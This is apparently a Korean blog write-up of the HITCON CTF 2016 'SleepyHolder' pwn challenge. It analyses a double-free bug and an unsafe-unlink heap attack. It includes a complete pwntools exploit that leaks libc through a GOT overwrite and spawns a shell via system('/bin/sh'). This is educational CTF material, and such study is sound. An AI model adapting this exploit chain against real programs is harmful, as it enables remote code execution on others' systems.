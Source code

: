 ```yaml
---
layout: post
title: "[2016 hitcon-ctf] SleepyHolder 풀이"
date: 2018-09-13 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### The Secret Holder has become sleepy and lazy now. nc 52.68.31.117 9547
### [Sleepy Holder](https://github.com/ctfs/write-ups-2016/raw/master/hitcon-ctf-2016/pwn/sleepy-holder-300/SleepyHolder_3d90c33bdbf3e5189febfa15b09ca5ee61b94015)

[how2heap](https://github.com/shellphish/how2heap)의 `fastbin dup consolidate` 문제에요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_hitcon-ctf/SleepyHolder/01.png)
{: refdef}

`small_secret`, `big_secret`, `huge_secret` 이렇게 세 개의 크기로 `chunk`를 할당받을 수 있는데 `huge_secret`은 할당만 받을 수 있고 `func_wipe`, `func_renew`에선 사용할 수 없어여.

그리고 `bss`영역에 `chunk`의 존재 유무를 판단하는 `flag`가 존재하고 `chunk`의 주소도 존재해요.

## `func_keep`

1. `small`, `big`, `huge` 선택

2. 해당 크기의 `flag` 값이 `0`이면 `chunk`가 없다고 판단하고 `calloc` (`0x28`, `0xfa0`, `0x61a80`)

3. (`0x28`, `0xfa0`, `0x61a80`) 만큼 `read`

## `func_wipe`

1. `small`, `big` 선택

2. `flag` 값과 상관없이 `free(chunk)`

3. `flag` 값을 `0`으로 바꿈

## `func_renew`

1. `small`, `big` 선택

2. `flag` 값이 존재하면 (`0x28`, `0xfa0`) 만큼 `read`

- - -
# 0x01. 취약점 분석

`func_wipe`에서 `flag`를 검사 안 해서 취약점이 발생해요.

`fastbin` 크기라도 `free`된 상태에서 `큰 chunk`를 할당하면 `unsorted_bin`이 돼요.

그러면 `big_secret` 기준에선 자기 앞에 있던 `chunk`가 `free`돼서 `prev_inuse` 값이` 0`으로 바뀌어요. (`0xfb1` -> `0xfb0`)

```python
func_keep(1, "A")
func_keep(2, "B")
func_wipe(1)

func_keep(3, "C")
func_wipe(1)
```

{: refdef: style="text-align: center;"}
![func_wipe(1)](/img/2016_hitcon-ctf/SleepyHolder/02.png)
{: refdef}

`small_secret`을 `free`하고 `huge_secret`을 할당받기 전 모습이에요.

{: refdef: style="text-align: center;"}
![func_keep(3)](/img/2016_hitcon-ctf/SleepyHolder/03.png)
{: refdef}

`huge_secret`을 할당받고 `small_secret`을 다시 `free`해서 `small_secret`의 `fd` 값이 없어졌어요.

- - -
# 0x02. 공격 방법

`small_secret`을 한 번 더 `free`해준 이후에 `small_secret`을 새로 할당해도 `big_secret`의 `prev_inuse` 값은 그대로라서 `big_secret`을 `free`하면 `unsafe_unlink`를 사용할 수 있어요.

`small_secret`안에 `fake_chunk`를 만들고 `big_secret`의 `prev_size`를 `0x20`으로 조작하면 `big_secret`이 `free`되면서 `prev_inuse`가 `0`인걸 보고 `big_secret - prev_size - 0x10`에서 `unlink`가 실행돼요.

`big_chunk`의 `prev_size`가 `0x30`에서 `0x20`으로 바뀌어서 `fake_chunk`의 `fd`, `bk`를 가지고 `unlink`가 실행돼여.

```python
func_keep(1, "A")
func_keep(2, "B")
func_wipe(1)

func_keep(3, "C")
func_wipe(1)

payload = p64(0x0) # fake_chunk -> prev_size
payload += p64(0x20) # fake_chunk -> size
payload += p64(small_secret - 0x18) # fake_chunk -> fd
payload += p64(small_secret - 0x10) # fake_chunk -> bk
payload += p64(0x20) # big_secret -> prev_size
func_keep(1, payload)
func_wipe(2)
```

`func_wipe(2)`가 실행되면 `fake_chunk`의 `fd`의 `bk`는 `fake_chunk`의 `bk`로 바뀌어요. `fake_chunk`의 `fd`는 `small_secret`의 주소가 있는 전역변수 - `0x18`에요.

즉, 전역변수 부분에 `fake_chunk`의 `bk`가 들어가요. 그리고 `fake_chunk`의 `bk`의 `fd`가 `fake_chunk`의 `fd`로 바뀌는데 결과적으론 전역변수 부분에 `fake_chunk`의 `fd`가 들어가요.

`unlink`가 끝나면 전역변수 부분엔 `자신의 주소 - 0x18`가 들어있어요.

전역변수는 원래 `small_secret`의 주소가 들어있으니까 지금 `func_renew`를 하면 `전역변수 - 0x18`부터 원하는 값을 넣을 수 있고 그러면 `small_secret`, `big_secret`을 원하는 걸로 바꿀 수 있어요.

- - -
# 0x03. 익스플로잇

처음 풀 땐 `unsafe_unlink` 때문에 고생했는디 다시 푸니까 쉽네요.

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "52.68.31.117"
PORT = 4444
#PORT = 9547

s = remote(HOST, PORT)
pause()

elf = ELF("./SleepyHolder")
libc = ELF("./libc.so.6")

free_got = elf.got["free"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

small_secret = 0x6020D0

def func_keep(size, content):
    s.recvuntil("3. Renew secret\n")
    s.sendline("1")

    s.recvuntil("2. Big secret\n")
    s.sendline(str(size))

    s.recvuntil("Tell me your secret: \n")
    s.send(content)

def func_wipe(size):
    s.recvuntil("3. Renew secret\n")
    s.sendline("2")

    s.recvuntil("2. Big secret\n")
    s.sendline(str(size))

def func_renew(size, content):
    s.recvuntil("3. Renew secret\n")
    s.sendline("3")

    s.recvuntil("2. Big secret\n")
    s.sendline(str(size))

    s.recvuntil("Tell me your secret: \n")
    s.send(content)

func_keep(1, "A")
func_keep(2, "B")
func_wipe(1)

func_keep(3, "C")
func_wipe(1)

payload = p64(0x0) # fake_chunk -> prev_size
payload += p64(0x20) # fake_chunk -> size
payload += p64(small_secret - 0x18) # fake_chunk -> fd
payload += p64(small_secret - 0x10) # fake_chunk -> bk
payload += p64(0x20) # big_secret -> prev_size
func_keep(1, payload)
func_wipe(2)

payload = "A"*0x8
payload += p64(puts_got) # big_secret
payload += "A"*0x8 # huge_secret
payload += p64(free_got) # small_secret
payload += p64(0x1) # big_flag
func_renew(1, payload)
func_renew(1, p64(puts_plt)) # free_got -> puts_plt -> puts_got -> puts

func_wipe(2) # libc_leak
real_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

real_base = real_puts - puts_off
real_system = real_base + system_off

print
log.info("real_base : " + hex(real_base))
log.info("real_puts : " + hex(real_puts))
log.info("real_system : " + hex(real_system))
print

func_renew(1, p64(real_system)) # free_got -> real_system

func_keep(2, "/bin/sh\0")
func_wipe(2)

s.interactive()
```

### hitcon{The Huuuuuuuuuuuge Secret Really MALLOC a difference!}
